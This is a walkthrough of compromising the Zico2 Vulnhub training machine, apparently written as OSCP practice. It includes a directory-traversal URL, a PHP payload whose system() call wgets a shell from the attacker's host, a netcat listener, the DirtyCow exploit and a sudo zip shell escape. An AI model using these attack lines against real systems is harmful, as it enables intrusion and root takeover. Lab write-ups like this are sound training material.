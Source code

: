 ```yaml
---
published: true
---
```


Vulnhub virtual machine; One of the last of my vulnhub boxes from the OSCP prep list. Zico2, used enumeration to find an admin login, which used basic credentials to enter. Used the backend to use php to download a reverse shell which led to privesc with dirtycow and zip.


----------

Legal Usage:
*The information provided by executeatwill is to be used for educational purposes only. The website creator and/or editor is in no way responsible for any misuse of the information provided. All the information on this website is meant to help the reader develop penetration testing and vulnerability aptitude to prevent attacks discussed. In no way should you use the information to cause any kind of damage directly or indirectly. Information provided by this website is to be regarded from an “*[*ethical hacker*](https://www.dictionary.com/browse/ethical-hacker)*” standpoint. Only preform testing on systems you OWN and/or have expressed written permission. Use information at your own risk.*

*By continued reading, you acknowledge the aforementioned user risk/responsibilities.*


----------


Search for VM on network

    netdiscover -r 192.168.56.0/24

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555255581402_image.png)


Target: 192.168.56.122


# Enumeration 

Nmap Scan:

    nmap -sV -sC -oA nmap/zico2.nmap 192.168.56.122

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555255688088_image.png)


Interesting Ports:
80 - webserver
111 - unknown at this point
22 - ssh (front door)

Investigate port 80

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555255777091_image.png)


checking out source:


![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555255897525_image.png)


*nothing of immediate interest.*

navigating around site page is based off a php backend which could be of use in the future for a reverse php shell.

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555255978376_image.png)


Test for directory traversal with an escape

    http://192.168.56.122/view.php?page=../../../../../../etc/passwd

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555256606045_image.png)


now we have an idea of users. Saved the passwd locally to folder and parsed for just user that have the ability to use sh.

    cat passwd | grep /bin/.*sh > sh.userlist

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555256885725_image.png)


*at the end just appened the users to sh.userlist*




## Gobuster
    gobuster -u 192.168.56.122 -w /usr/share/seclists/Discovery/Web-Content/common.txt -s '200,204,301,302,307,403,500' -e

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555256116071_image.png)


`/dbadmin/` accessible:

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555256991977_image.png)

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555257027322_image.png)


we found a web application name and version number along with a password field.
testing generic passwords

    password
    zico
    admin


Password: Admin # Lets take a second and talk about how this is a terrible password.

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555257822213_image.png)


*“were in!”* 


Investgate the `/usr/databases/test_users` click the info button

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555258630237_image.png)

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555258642957_image.png)


looks like MD5 hashes - decrypted with https://www.md5online.org/md5-decrypt.html

    root: 34kroot34
    zico: zico2215@

quick attempt to SSH using credentials — No-Go 


## searchsploit
    searchsploit phpliteadmin

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555257628716_image.png)


mirror `24044.txt`

    searchploit -m exploits/php/webapps/24044.txt

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555257699428_image.png)

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555257876972_image.png)


Looks like we can create a new database and move to upload a reverse shell.


created a database name `execwashere.php`

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555259143852_image.png)


create table named `gimmeshell` with Number of Fields: `1`

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555259266747_image.png)

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555259447971_image.png)


used `test` for the name, selected `TEXT` and inserted the default value  `<?php phphinfo(); ?>`

navigated to location of execwashere.php

    http://192.168.56.122/view.php?page=../../../usr/databases/execwashere.php

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555259657390_image.png)


Lets go input a reverse php shell since we know we can access `/usr/databases` by creating a new database named `test.php`

    <?php system("cd /usr/databases/; wget http://192.168.56.102:8000/phpshell.php"); ?>

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555323507878_image.png)



launch our reverse shell via `phpshell.php`

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555318152692_image.png)


Setup Listener

    nc -lvnp 9000
![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555320772957_image.png)



## dirtycow

uname inspect

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555318538227_image.png)


This version is [dirtycow](https://dirtycow.ninja/) susceptible.

download the dirty.c exploit from https://www.exploit-db.com/exploits/40839
setup up webserver and wget from box

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555321891441_image.png)

    wget http://192.168.56.102:8000/dirty.c

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555321869991_image.png)


Compile

    gcc -pthread dirty.c -o dirty -lcrypt

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555322047103_image.png)



----------
# Priv-Esc

navigate `/home/zico/` discovered `wordpress` and `wp-config.php`

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555318229977_image.png)


we now found credentials for zico

    zico:sWfCsfJSPV9H3AmQzw8

attempt SSH with credentials:

    ssh zico@192.168.56.122

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555318341067_image.png)


check permissions:

    sudo -l

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555323321433_image.png)

# Root&Loot

Taking advantage of `zip` to elevate to root

    sudo zip /tmp/test.zip /home/zico/wordpress -T --unzip-command="sh -c /bin/bash"

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555323397092_image.png)


connect to dirtycow’d SSH

    ssh firefart@192.168.56.122

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555322182994_image.png)



“Bring me the root” -exec

